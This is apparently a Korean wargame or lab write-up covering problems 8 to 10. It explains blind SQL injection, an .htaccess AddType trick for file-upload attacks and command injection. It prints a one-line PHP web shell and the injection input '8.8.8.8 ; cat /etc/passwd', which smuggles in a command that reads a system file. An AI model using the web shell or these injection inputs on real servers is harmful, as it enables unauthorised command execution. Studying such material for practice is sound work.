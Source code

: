 ***

### 8번 문제

**BLIND SQL Injection이란?**

- 데이터베이스의 결과 데이터가 직접 노출되지 않는 상황에서 서버의 참/거짓 반응을 기반으로 정보를 추출하는 SQL Injection

- 직접적인 데이터 노출 없이도, 정보를 유출할 수 있는 취약점

- 스무고개 / 맞다 or 틀리다

**%의 의미**

-abc% : abc로 시작하는 모든 문자열을 포함한다.

  ex) abc, abc123, abcde, abcXYZ
  
  cf) abc = abc 일때만 참

***

### 9번 문제

1) .htaccess : 아파치 웹서버의 해당 디렉터리 설정을 제어하는 파일

파일이 실행되기 전, 먼저 동일한 경로에 존재하는 .htaccess 파일의 설정을 먼저 적용 받음

파일을 해당 확장자(php)로 인식되게 설정
```
AddType application/x-httpd-php .txt .abc. xyz
```

2) 파일 업로드 1, 2번 문제와 동일하게 flag 찾기

```
<?php system($_GET["cmd"]); ?>
```

***

### 10번 문제

**Command Injection이란?**

웹 어플리케이션 등에서 사용자의 입력값이, 운영체제의 명령어를 실행하는 함수로 전달될 때 발생하는 취약점

- 입력값 검증 없이 전달될 때 발생 * System(), exec() 같은 입력값
- 공격자는 이 취약점을 이용해 임의의 시스템 명령어를 삽입, 실행하거나, 민감 정보 유출로 이어질 수 있음.

```
ls ; cat /var/log
```

EX) 입력값 8.8.8.8 ; cat /etc/passwd 라던지 ;을 이용해 추가 명령어를 삽입하는 공격

***

### 11번 문제
